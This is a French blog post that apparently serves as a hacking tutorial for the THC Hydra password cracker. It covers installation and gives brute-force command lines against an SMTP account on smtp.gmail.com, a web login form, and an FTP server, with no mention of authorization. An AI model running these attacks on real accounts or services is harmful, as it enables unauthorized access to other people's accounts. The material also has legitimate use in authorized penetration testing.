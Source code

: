 ```yaml
---
title: Hydra, un outil de craquage de mot de passe
author: Davistar
layout: post
permalink: "/hacking/hydra.html"
read_time: true
category: hacking
---
```


![Hydra](/techlovers/assets/image1hydra.jpeg)

## Qu'est-ce que Hydra :
THC Hydra est un outil de piratage de mots de passe capable d’exécuter des attaques de dictionnaire très rapides contre plus de cinquante protocoles. 
C'est un outil de piratage de connexion réseau rapide et stable qui utilise des attaques par dictionnaire ou par force brute pour essayer diverses combinaisons de mots de passe et de connexion sur une page de connexion.

## Quelles sont les utilisations typiques de THC Hydra? :
Hydra est utilisé en tant que pirate de connexion parallélisé prenant en charge de nombreux protocoles d’attaque. Les nouveaux modules sont faciles à ajouter. Cet outil montre à quel point il est facile d’obtenir un accès non autorisé à distance.

## Installer Hydra :

Hydra est très simple d'installation. Sous Parrot et Kali, Hydra est déjà pré-installé.

### Sur Linux

{% highlight bash %}
┌─[davistar@parrot]─[~]
└──╼ $sudo apt update && apt upgrade -y && apt install hydra -y
# sudo apt install hydra-gtk si vous voulez hydra en GUI
{% endhighlight %}

### Sur Windows
> - Télécharger THC-Hydra ici => https://github.com/maaaaz/thc-hydra-windows
> - Extraire le fichier
> - Finir l'installation

## Comment Utiliser Hydra : 

Pour afficher l'aide de Hydra 

{% highlight bash %}
┌─[davistar@parrot]─[~]
└──╼ $sudo hydra -h
{% endhighlight %}

### Cracker un compte smtp avec Hydra via un dictionnaire :
Explication en vidéo ici => [https://www.youtube.com/watch?v=3i2fx_kBVwA&t=0s](https://www.youtube.com/watch?v=3i2fx_kBVwA&t=0s)

Notre serveur smtp : smtp.gmail.com
Notre port smtp : 465 ou 587

{% highlight bash %}
$ sudo hydra -l target@gmail.com -P wordlist.txt -S 465 -v -V -t 1 smtp.gmail.com smtp
{% endhighlight %}

 > -l = précise le login
 > -P = précise la wordlist
 > -S = précise le port
 > -v = pour rendre l'attaque verbeuse
 > -t = le nombre de threads
 > smtp = le protocole de l'attaque

### Cracker un compte via une page login post form :

{% highlight bash %}
$ hydra <IP> https-post-form "/login/login.php:user=admin&password=^PASS^ :F=failed" -l admin -P wordlist.txt -t 1 -V
{% endhighlight %}

### Cracker un compte ftp via Hydra

{% highlight bash %}
$ hydra -l admin -P passlist.txt ftp://192.168.1.70
{% endhighlight %}